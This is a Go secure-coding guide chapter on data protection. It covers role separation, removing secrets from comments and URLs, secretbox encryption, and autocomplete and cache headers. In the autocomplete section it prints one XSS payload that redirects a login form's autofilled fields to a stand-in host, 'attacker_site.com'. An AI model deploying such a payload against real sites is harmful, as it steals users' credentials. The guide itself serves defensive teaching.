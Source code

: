 Data Protection
===============

Nowadays, one of the most important things in security in general is data
protection. You don't want something like:

![All your data are belong to us](files/cB52MA.jpeg)

Simply put, data from your web application needs to be protected. Therefore in
this section, we will take a look at the different ways to secure it.

One of the first things you should tend to is creating and implementing the
right privileges for each user, and restrict them to only the functions they
really need.

For example, consider a simple online store with the following user roles:

* _Sales user_: Allowed to only view a catalog
* _Marketing user_: Allowed to check statistics
* _Developer_: Allowed to modify pages and web application options

Also, in the system configuration (aka webserver), you should define the right
permissions.

The primary thing to perform is to define the right role for each user - web or
system.

Role separation and access controls are further discussed in
the [Access Control][1] section.

## Remove sensitive information

Temporary and cache files which contain sensitive information should be removed
as soon as they're not needed. If you still need some of them, move them to
protected areas or encrypt them.

### Comments

Sometimes developers leave comments like _To-do lists_ in the source-code, and
sometimes, in the worst case scenario, developers may leave credentials.

```go
// Secret API endpoint - /api/mytoken?callback=myToken
fmt.Println("Just a random code")
```

In the above example, the developer has an endpoint in a comment which, if not
well protected, could be used by a malicious user.

### URL

Passing sensitive information using the HTTP GET method leaves the web
application vulnerable because:

1. Data could be intercepted if not using HTTPS by MITM attacks.
2. Browser history stores the user's information. If the URL has
   session IDs, pins or tokens that don't expire (or have low entropy),
   they can be stolen.

```go
req, _ := http.NewRequest("GET", "http://mycompany.com/api/mytoken?api_key=000s3cr3t000", nil)
```

If your web application tries to get information from a third-party website
using your ```api_key```, it could be stolen if anyone is listening within your
network. This is due to the lack of HTTPS and the parameters being passed
through GET.

Also, if your web application has links to the example site:

```
http://mycompany.com/api/mytoken?api_key=000s3cr3t000
```

It will be stored in your browser history, so again, it can be stolen.

Solutions should always use HTTPS. Furthermore, try to pass the parameters using
the POST method. And, if possible, use one-time only session IDs or tokens.

### Information is power

You should always remove application and system documentation on the production
environment. Some documents could disclose versions, or even functions that
could be used to attack your web application (e.g. Readme, Changelog, etc.).

As a developer, you should allow the user to remove sensitive information that
is no longer used. For example, if the user has expired credit cards on his
account and wants to remove them, your web application should allow it.

All of the information that is no longer needed must be deleted from the
application.

#### Encryption is the key

Every piece of highly-sensitive information should be encrypted in your web
application. Use the military-grade [encryption available in Go][2]. For more
information, see the [Cryptographic Practices][3] section.

If you need to implement your code elsewhere, just build and share the
binary, since there's no bulletproof solution to prevent reverse engineering.

Getting different permissions for accessing the code and limiting the access
for your source-code, is the best approach.

Do not store passwords, connection strings (see example for how to secure database
connection strings on [Database Security][4] section), or other sensitive
information in clear text or in any non-cryptographically secure manner on the
client side.
This includes embedding in insecure formats (e.g. Adobe flash or compiled code).

Here's a small example of encryption in Go using an external package
`golang.org/x/crypto/nacl/secretbox`:

```go
// Load your secret key from a safe place and reuse it across multiple
// Seal calls. (Obviously don't use this example key for anything
// real.) If you want to convert a passphrase to a key, use a suitable
// package like bcrypt or scrypt.
secretKeyBytes, err := hex.DecodeString("6368616e676520746869732070617373776f726420746f206120736563726574")
if err != nil {
    panic(err)
}

var secretKey [32]byte
copy(secretKey[:], secretKeyBytes)

// You must use a different nonce for each message you encrypt with the
// same key. Since the nonce here is 192 bits long, a random value
// provides a sufficiently small probability of repeats.
var nonce [24]byte
if _, err := rand.Read(nonce[:]); err != nil {
    panic(err)
}

// This encrypts "hello world" and appends the result to the nonce.
encrypted := secretbox.Seal(nonce[:], []byte("hello world"), &nonce, &secretKey)

// When you decrypt, you must use the same nonce and key you used to
// encrypt the message. One way to achieve this is to store the nonce
// alongside the encrypted message. Above, we stored the nonce in the first
// 24 bytes of the encrypted text.
var decryptNonce [24]byte
copy(decryptNonce[:], encrypted[:24])
decrypted, ok := secretbox.Open([]byte{}, encrypted[24:], &decryptNonce, &secretKey)
if !ok {
    panic("decryption error")
}

fmt.Println(string(decrypted))
```

The output will be:

```
hello world
```

## Disable what you don't need

Another simple and efficient way to mitigate attack vectors is to guarantee that
any unnecessary applications or services are disabled in your systems.

### Autocomplete

According to [Mozilla documentation][1], you can disable autocompletion in the
entire form by using:

```html
<form method="post" action="/form" autocomplete="off">
```

Or a specific form element:

```html
<input type="text" id="cc" name="cc" autocomplete="off">
```

This is especially useful for disabling autocomplete on login forms. Imagine a
case where a XSS vector is present in the login page.
If the malicious user creates a payload like:

```javascript
window.setTimeout(function() {
  document.forms[0].action = 'http://attacker_site.com';
  document.forms[0].submit();
}
), 10000);
```

It will send the autocomplete form fields to the `attacker_site.com`.

### Cache

Cache control in pages that contain sensitive information should be disabled.

This can be achieved by setting the corresponding header flags, as shown in the
following snippet:

```go
w.Header().Set("Cache-Control", "no-cache, no-store")
w.Header().Set("Pragma", "no-cache")
```

The `no-cache` value tells the browser to revalidate with the server before
using any cached response. It does not tell the browser to _not cache_.

On the other hand, the `no-store` value is really about disabling caching
overall, and must not store any part of the request or response.

The `Pragma` header is there to support HTTP/1.0 requests.

[1]: https://developer.mozilla.org/en-US/docs/Web/Security/Securing_your_site/Turning_off_form_autocompletion
[2]: https://godoc.org/golang.org/x/crypto
[3]: /cryptographic-practices/README.md
[4]: /database-security/README.md

